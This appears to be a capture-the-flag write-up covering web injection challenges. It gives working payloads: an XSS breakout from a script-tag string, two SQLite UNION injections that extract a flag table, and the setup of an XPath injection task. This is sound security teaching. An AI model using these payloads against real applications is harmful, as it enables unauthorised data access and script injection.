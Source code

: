 ### XSS 2

**Context**: Same context as XSS1, but the input is executed inside a script tag.

```html
<script>const x = '$INPUT'</script>
```

**Payload**: Escape from the `''` context and use a JavaScript comment to get rid of the quote.

```js
'+alert(flag)//
```


### SQL Injection 1

**Context**: The application uses SQLite3 to execute SQL queries, and the input is normalized using NFKC normalization. We are also given the structure of the database

```sql
-- Structure
CREATE TABLE users (username TEXT, password TEXT, age INTEGER);
CREATE TABLE flag (flag TEXT);
```

```sql
SELECT * FROM users WHERE username = '$INPUT'
```

**Payload**: Extract the `flag` from the `flag` table.

:warning: Each table argument of 'UNION' must have the same number of columns you can use `NULL` keyword to create empty column. - [Reference: SQLite UNION](https://www.sqlitetutorial.net/sqlite-union/)

```sql
' union select flag , null, null from flag --
```

### SQL Injection 2

**Context**: Same database structure and normalization as in SQL 1, but the injection occurs in a number comparison.

```sql
SELECT * FROM users WHERE age <$INPUT
```

**Payload**: Same payload as before, without the quote to close the string.

```ps1
9 union select flag , null, null from flag --
```

### XPath Injection

**Context**: Extract the password of the admin user. The structure of the XML was also given.

```xml
<db>
  <users>
    <user>
      <name>admin</name>
      <password>FLAG</password>
    </user>
    <user>
      <name>guest</name>
      <password>123456</password>
    </user>
  </users>
</db>
```